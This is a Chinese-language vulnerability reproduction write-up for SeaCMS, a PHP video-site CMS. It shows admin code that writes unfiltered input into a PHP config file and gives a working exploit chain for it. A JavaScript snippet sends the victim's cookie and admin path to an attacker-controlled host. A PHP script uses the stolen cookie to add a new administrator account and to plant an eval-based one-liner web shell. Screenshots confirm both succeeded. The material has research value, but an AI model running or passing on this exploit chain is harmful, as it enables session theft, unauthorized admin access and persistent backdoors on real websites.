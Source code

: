 # seacms getshell

> 原文：[http://book.iwonder.run/0day/Seacms/2.html](http://book.iwonder.run/0day/Seacms/2.html)

## 一、漏洞简介

海洋 cms 是一款简单的 php 内容管理系统，主要用于视频网站，采用 PHP+MYSQL 架构，未使用框架

## 二、漏洞影响

## 三、复现过程

后台代码如下

```
<?php

header('Content-Type:text/html;charset=utf-8');

require_once(dirname(__FILE__)."/config.php");

CheckPurview();

if($action=="set")

{

    $v= $_POST['v'];

    $ip = $_POST['ip'];

    $open=fopen("../data/admin/ip.php","w" );

    $str='<?php ';

    $str.='$v = "';

    $str.="$v";

    $str.='"; ';

    $str.='$ip = "';

    $str.="$ip";

    $str.='"; ';

    $str.=" ?>";

    fwrite($open,$str);

    fclose($open);

    ShowMsg("成功保存设置!","admin_ip.php");

    exit;

}

?> 
```

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

```
# test.js

var img = new Image();

img.src=  "http://127.0.0.1/test.php?x=" + document.cookie + "&p=" + location.pathname;

# test.php

<?php

    function Requests($url, $data, $cookie = '', $type = 1){

        $ch = curl_init();

        $params[CURLOPT_URL] = $url;

           $params[CURLOPT_HEADER] = FALSE;

        $params[CURLOPT_SSL_VERIFYPEER] = false;

        $params[CURLOPT_SSL_VERIFYHOST] = false;

        $params[CURLOPT_RETURNTRANSFER] = true;

        if ($type === 1) {

            $params[CURLOPT_POST] = true;

            $params[CURLOPT_POSTFIELDS] = $data;

        }

        $params[CURLOPT_COOKIE] = $cookie;

        curl_setopt_array($ch, $params);

        $output = curl_exec($ch);

        file_put_contents('log.txt', $output, FILE_APPEND);

        curl_close($ch);

    }

    $C = $_GET['x'];

    $P = $_GET['p'];

    $P = substr($P, 0, strlen($P)-21);

    file_put_contents('c.txt', $C);

    file_put_contents('p.txt', $P);

    $url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

    $url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

    $data_1 = 'username=test&pwd=test&pwd2=test&groupid=1';

    $data_2 = 'v=0&ip=+";@eval($_POST[qwer]);"';

    Requests($url_1, $data_1, $C);

    Requests($url_2, $data_2, $C); 
```

这两个脚本会将 cookie 和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![image](img/3a337783d3e9587e7137c2f7e3ff605b.png)

代码已经写进了后

![image](img/2187d673eeac543491d6b1857037fa9c.png)

管理员添加成功

![image](img/afaaf25bdc8edae1fa4ef922169f529a.png)

一句话也写进去了

